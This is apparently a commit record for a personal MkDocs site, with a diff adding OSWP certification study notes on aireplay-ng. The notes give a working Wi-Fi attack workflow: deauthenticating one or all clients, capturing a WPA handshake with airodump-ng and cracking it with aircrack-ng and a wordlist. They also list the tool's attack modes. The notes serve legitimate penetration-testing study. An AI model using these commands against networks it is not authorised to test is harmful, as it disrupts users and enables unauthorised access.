

Before and after one commit to johnlwhiteman/johnlwhiteman.github.io, an MkDocs documentation site: the page built from docs/certs/oswp/tools/aireplay-ng.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out.

Commit message:
as you were
Signed-off-by: John L. Whiteman <jwhitema@gia.edu>

````diff
--- a/docs/certs/oswp/tools/aireplay-ng.md
+++ b/docs/certs/oswp/tools/aireplay-ng.md
@@ -1,14 +1,66 @@
 # aireplay-ng
+
+Used to inject/replay frames. The primary function is to generate traffic for later use in aircrack-ng for cracking the WEP and WPA-PSK keys. For example, looking for the four-way handshake message during a deauthentication injection tests. Make sure that both the BSSID and CHANNEL are set correctly prior to injections.
+
+Here's the normal workflow.
+
+```bash
+sudo airmon-ng -c $CHANNEL wlan0
+
+# Terminal 1
+sudo airodump-ng -c $CHANNEL --bssid $BSSID --output-format pcap -w $TAG wlan0mon
+
+# Terminal 2
+sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT wlan0mon
+
+# Wait for found handshake message from airodump-ng then stop everything
+
+# Crack the key
+sudo aircrack-ng -w $WORDLIST -b $BSSID -e $SSID $PCAP
+```
 
 ## Commands
 
 ```bash
-# Check if injection works for given interface
-sudo aireplay-ng -9 wlan0mon
+# Test if injection works for given interface
+sudo aireplay-ng --test wlan0mon
 
-# Deauthenticate a client connected to an AP
-sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon
+# Test injection between two interfaces
+sudo aireplay-ng --test -i wlan1mon wlan0mon
+
+# Test injection in a specific AP
+sudo aireplay-ng -e $SSID -a $BSSID wlan0mon
+
+# Test injection in a specific AP without expecting to receive probes
+sudo aireplay-ng -e $SSID -a $BSSID -D wlan0mon
+
+# Deauthenticate a specific client connected to an AP
+sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT wlan0mon
+
+# Deauthenticate ALL clients connected to an AP
+sudo aireplay-ng --deauth 7 -a $BSSID wlan0mon
 ```
+
+
+## Attack Modes
+
+```bash
+aireplay-ng --help
+
+Attack modes (numbers can still be used):
+
+    --deauth      count : deauthenticate 1 or all stations (-0)
+    --fakeauth    delay : fake authentication with AP (-1)
+    --interactive       : interactive frame selection (-2)
+    --arpreplay         : standard ARP-request replay (-3)
+    --chopchop          : decrypt/chopchop WEP packet (-4)
+    --fragment          : generates valid keystream   (-5)
+    --caffe-latte       : query a client for new IVs  (-6)
+    --cfrag             : fragments against a client  (-7)
+    --migmode           : attacks WPA migration mode  (-8)
+    --test              : tests injection and quality (-9)
+```
+
 ## References
 
 * [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -55,6 +55,7 @@ nav:
       - mkdocs: doctools/mkdocs/mkdocs.md
       - slidev: doctools/slidev/slidev.md
     - linux:
+      - bg-fg-jobs: linux/bg-fg-jobs.md
       - screen: linux/screen.md
     - about: about.md
 plugins:
````
Also changed, not shown: docs/certs/oswp/oswp.md (added, +7 -0 lines), docs/certs/oswp/references.md (+2 -0 lines), docs/certs/oswp/tools/airdecap-ng.md (+2 -0 lines), docs/certs/oswp/tools/airmon-ng.md (+17 -6 lines), docs/certs/oswp/tools/airodump-ng.md (+15 -7 lines), docs/linux/bg-fg-jobs.md (added, +24 -0 lines).
